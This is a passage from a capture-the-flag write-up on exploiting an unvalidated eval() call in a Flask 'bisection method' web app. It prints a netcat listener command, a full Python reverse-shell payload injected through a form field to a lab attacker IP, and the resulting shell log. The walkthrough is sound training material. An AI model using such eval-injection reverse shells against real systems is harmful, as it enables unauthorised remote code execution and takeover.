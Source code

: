 ```
                elif yc < 0: #If (c) is negative then we switch the a variable instead
                    xa = c 
                    c = (int(xa) + int(xb))/2
        c_format = "{0:.4f}"
        root = float(c_format.format(c))
        return root
    
if __name__=="__main__":
    app.run("0.0.0.0",5000)
```

So there is a function defined for the `bisection method`, let's take a look at this function to see how it works :  
```
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
    ...
    ...
    ...
```

The `eval` function is called with the two values entered by the user. The `eval` function can execute the string passed in argument as python code. Since there isn't any filters 
or input validations, we can literrally run any python code by writing it in `xa` or `xb` inputs on the web page.

## Eval function exploitation

I tried to simply use a python3 reverse shell but it didn't work. We have to use a little different payload for this. First, let's start a netcat listener :  
```
attacker@AttackBox:~/Devie/math$ nc -lnvp 4242
listening on [any] 4242 ...
```

Now, I will use this payload :  
```
__import__("subprocess").getoutput("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.14.32.60\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/sh\")'")
```

Let's put it in the `xa` field like this :  
![](https://i.imgur.com/s202DY9.jpg)  

Now we can press the `Submit` button at the bottom of the page and see if we receive a reverse shell :  
```
attacker@AttackBox:~/Devie/math$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.190.159] 34150
$ whoami
whoami
bruce
$
```
